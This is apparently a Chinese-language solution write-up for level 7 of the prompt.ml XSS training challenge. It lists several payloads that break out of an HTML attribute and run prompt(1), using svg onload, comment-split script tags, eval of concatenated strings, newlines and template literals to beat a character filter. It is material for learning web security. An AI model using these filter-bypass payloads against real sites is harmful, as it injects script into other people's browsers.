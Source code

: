 考虑到最短要使用到`<svg/onload=prompt(1)`的变形。

## Solutions:

1. 
`"><svg/a='#'onload='/*#*/prompt(1)'`
官方答案短一个字符...
`"><svg/a=#"onload='/*#*/prompt(1)'`

2. 利用eval函数特性执行拼接内容
`"><script>/*#*/a='prom'/*#*/+'pt(1)'/*#*/eval(a)/*#*/</script>`

3. 利用换行

```
    "><script>/*#*/prompt(/*#*/1)/*#*/</script>
    1234
```

4. ``"><script>`#${prompt(1)}#`</script>``


## Img:

1. `"><svg/a='#'onload='/*#*/prompt(1)'`

![7_2](/img/xss/prompt_ml/level7_002.png)

2. `"><script>/*#*/a='prom'/*#*/+'pt(1)'/*#*/eval(a)/*#*/</script>`
